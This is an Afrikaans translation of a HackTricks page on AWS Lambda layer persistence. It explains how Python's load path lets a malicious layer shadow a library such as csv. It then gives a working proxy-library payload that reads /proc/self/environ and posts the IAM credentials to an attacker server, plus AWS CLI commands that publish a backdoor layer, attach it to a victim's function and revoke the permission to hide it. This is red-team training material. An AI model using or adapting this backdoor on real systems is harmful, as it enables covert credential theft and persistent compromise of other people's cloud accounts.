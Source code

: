 # AWS - Lambda Lae Persistensie

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>

## Lambda Lae

'n Lambda-laag is 'n .zip-lêerargief wat **bykomende kode** of ander inhoud kan bevat. 'n Laag kan biblioteke, 'n [aangepaste uitvoering](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), data of konfigurasie-lêers bevat.

Dit is moontlik om tot **vyf lae per funksie** in te sluit. Wanneer jy 'n laag in 'n funksie insluit, word die **inhoud onttrek na die `/opt`-gids** in die uitvoeringsomgewing.

Standaard is die **lae** wat jy skep, **privaat** vir jou AWS-rekening. Jy kan kies om 'n laag met ander rekeninge te **deel** of die laag **openbaar** te maak. As jou funksies 'n laag verbruik wat deur 'n ander rekening gepubliseer is, kan jou funksies **voortgaan om die laagweergawe te gebruik nadat dit uitgevee is, of nadat jou toestemming om die laag te gebruik, herroep is**. Jy kan egter nie 'n nuwe funksie skep of funksies opdateer met 'n uitgevee laagweergawe nie.

Funksies wat as 'n houerbeeld geïmplementeer is, gebruik nie lae nie. In plaas daarvan pak jy jou voorkeursuitvoering, biblioteke en ander afhanklikhede in die houerbeeld in wanneer jy die beeld bou.

### Python laaipad

Die laaipad wat Python in lambda gebruik, is as volg:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Kyk hoe die **tweede** en derde **posisies** beset word deur gids waar **lambda-lae** hul lêers uitpak: **`/opt/python/lib/python3.9/site-packages`** en **`/opt/python`**

{% hint style="danger" %}
As 'n aanvaller daarin slaag om 'n gebruikte lambda **laag te backdoor** of een **by te voeg wat arbitrêre kode uitvoer wanneer 'n algemene biblioteek gelaai word**, sal hy in staat wees om skadelike kode uit te voer met elke lambda-aanroeping.
{% endhint %}

Daarom is die vereistes:

* **Kyk watter biblioteke** deur die slagoffers se kode gelaai word
* Skep 'n **proksi-biblioteek met lambda-lae** wat **aangepaste kode uitvoer** en die oorspronklike biblioteek **laai**.

### Voorafgelaai biblioteke

{% hint style="warning" %}
Toe ek hierdie tegniek misbruik het, het ek 'n probleem gevind: Sommige biblioteke is **reeds gelaai** in die Python-uitvoertyd wanneer jou kode uitgevoer word. Ek het verwag om dinge soos `os` of `sys` te vind, maar selfs die `json`-biblioteek was gelaai.\
Om hierdie volhardingstegniek te misbruik, moet die kode 'n nuwe biblioteek **laai wat nie gelaai is** wanneer die kode uitgevoer word.
{% endhint %}

Met 'n Python-kode soos hierdie is dit moontlik om die **lys van voorafgelaai biblioteke** binne die Python-uitvoertyd in lambda te verkry:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
En hier is die **lys** (kontroleer dat biblioteke soos `os` of `json` reeds daar is)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
En hier is die lys van **biblioteke** wat **lambda standaard geïnstalleer het**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda-laag agterdeur

In hierdie voorbeeld stel ons voor dat die geteikende kode **`csv`** invoer. Ons gaan die invoer van die `csv`-biblioteek **agterdeur**.

Om dit te doen, gaan ons die gids **csv** skep met die lêer **`__init__.py`** daarin op 'n pad wat deur lambda gelaai word: **`/opt/python/lib/python3.9/site-packages`**\
Dan, wanneer die lambda uitgevoer word en probeer om **csv** te laai, sal ons **`__init__.py`-lêer gelaai en uitgevoer word**.\
Hierdie lêer moet:

* Ons payload uitvoer
* Die oorspronklike csv-biblioteek laai

Ons kan beide doen met:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Skep dan 'n zip met hierdie kode in die pad **`python/lib/python3.9/site-packages/__init__.py`** en voeg dit as 'n lambda-laag by.

Jy kan hierdie kode vind by [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Die geïntegreerde payload sal **die IAM-gevolmagtigdes na 'n bediener stuur DIE EERSTE KEER wat dit aangeroep word of NA 'n herstel van die lambda-houer** (verandering van kode of koue lambda), maar **ander tegnieke** soos die volgende kan ook geïntegreer word:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Eksterne Lae

Merk op dat dit moontlik is om **lambda-laagte van eksterne rekeninge** te gebruik. Verder kan 'n lambda 'n laag van 'n eksterne rekening gebruik selfs as dit nie toestemmings het nie.\
Merk ook op dat die **maksimum aantal lae wat 'n lambda kan hê, 5 is**.

Daarom kan 'n aanvaller, om die veelsydigheid van hierdie tegniek te verbeter, die volgende doen:

* Backdoor 'n bestaande laag van die gebruiker (niks is ekstern nie)
* **Skep** 'n **laag** in **sy rekening**, gee die **slagofferrekening toegang** om die laag te gebruik, **konfigureer** die **laag** in die slagoffer se Lambda en **verwyder die toestemming**.
* Die **Lambda** sal steeds in staat wees om die **laag te gebruik** en die slagoffer sal nie 'n maklike manier hê om die kode van die lae af te laai nie (behalwe om 'n omgekeerde skul in die lambda te kry nie)
* Die slagoffer sal nie eksterne lae sien wat gebruik word met **`aws lambda list-layers`** nie

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
